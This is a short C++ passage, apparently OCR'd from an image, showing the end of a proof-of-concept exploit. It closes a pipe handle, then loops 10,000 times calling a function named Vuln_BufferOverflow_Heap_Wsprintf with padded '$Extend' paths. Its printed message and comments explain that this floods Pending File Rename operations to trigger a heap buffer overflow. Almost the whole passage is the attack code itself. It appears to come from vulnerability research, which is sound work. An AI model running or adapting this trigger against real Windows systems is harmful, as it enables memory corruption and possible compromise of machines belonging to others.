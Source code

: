 ```C++
	if (g_hPipe != INVALID_HANDLE_VALUE)
	{
		CloseHandle(g_hPipe);
		g_hPipe = INVALID_HANDLE_VALUE;
	}
}

int wmain(int argc, wchar_t** argv)
{
	printf("Spamming the pipe with some large strings.\r\n. This should fill up the Pending File Rename operations allowing an overflow :o)\r\n");
	for (DWORD i = 0; i < 10000; ++i)
	{
		// So we use .\.\.\. to just fill up a string quicker
		// C:\$Extend is an NTFS file, therefore MoveFileEx will fail with AccessDenied (5) which is what 
		// we need to trigger the overflow
		PWSTR pszSource = L"C:\\.\\.\\.\\.\\.\\.\\.\\.\\.\\.\\$Extend";
		PWSTR pszDest = L"C:\\.\\.\\.\\.\\.\\.\\.\\.\\.\\.\\$Extend";

		if (i % 100 == 0)
		{
			printf(".");
		}

		Vuln_BufferOverflow_Heap_Wsprintf(pszSource, pszDest);
	}
}
```